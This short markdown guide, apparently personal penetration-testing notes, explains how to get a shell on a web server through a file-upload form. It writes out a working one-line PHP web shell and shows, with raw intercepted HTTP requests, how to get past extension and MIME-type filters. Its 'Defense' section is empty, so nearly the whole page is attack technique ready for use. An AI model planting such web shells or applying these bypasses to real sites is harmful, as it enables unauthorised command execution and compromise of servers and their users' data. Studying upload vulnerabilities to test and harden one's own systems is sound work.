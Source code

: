 # Shell via PHP

Lots of web-sites have a file-upload function. This enables users to upload avatars, pictures etc.
This opens up several possibilities for command-execution on the server.

## Get Shell via PHP file-upload
Getting shell on a server with no protection on the file-upload is easy.

1: Create a PHP file:
```php
<?php
system($_GET['command']);
?>
```
2: Upload this to the server using a file-upload form

3: Browse to the file in the web address and add a command like this:
```html
command=ls -a;
```
4: If it displays a dir-listing, you've got shell


## Circumventing file-extension filters.
When you're limited to uploading only specific file-extensions, like jpg, gif or png, you can still try to circumvent this.

### Change the file-name
Follow the steps above, but replace step 2 with:

2a: Rename the PHP file to an allowed extension.
2b: When uploading this renamed file, enable a proxy intercepter like BurpSuite
2c: In the intercept, change the file-name in the content:

```html
...
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------14882905051801670598702936301
Content-Length: 256

-----------------------------14882905051801670598702936301
Content-Disposition: form-data; name="file"; filename="cmd.php" <-- REMOVED .JPG FROM FILENAME 
Content-Type: image/jpeg

<?php
system($_GET['command']);
?>

-----------------------------14882905051801670598702936301--```
```

### Change the mime-type
Follow the steps above, but replace step 2 with:

2a: When uploading this renamed file, enable a proxy intercepter like BurpSuite
2b: In the intercept, change the content's mime-type:

```html
...
Content-Length: 256

-----------------------------14882905051801670598702936301
Content-Disposition: form-data; name="file"; filename="cmd.php" 
Content-Type: image/jpeg <-- CHANGED FROM text/plain

<?php
system($_GET['command']);
?>

-----------------------------14882905051801670598702936301--```
```

Defense:



Sources:
* [Skimi](https://www.youtube.com/watch?v=J_i1Hi80-zA)
* [Cypher](https://stackoverflow.com/questions/7349473/php-file-upload-mime-or-extension-based-verification) exploiting an image-file to include PHP code (should be extension PHP).
* [Igor Data](https://medium.com/@igordata/php-running-jpg-as-php-or-how-to-prevent-execution-of-user-uploaded-files-6ff021897389) on running PHP code in a number of scenario's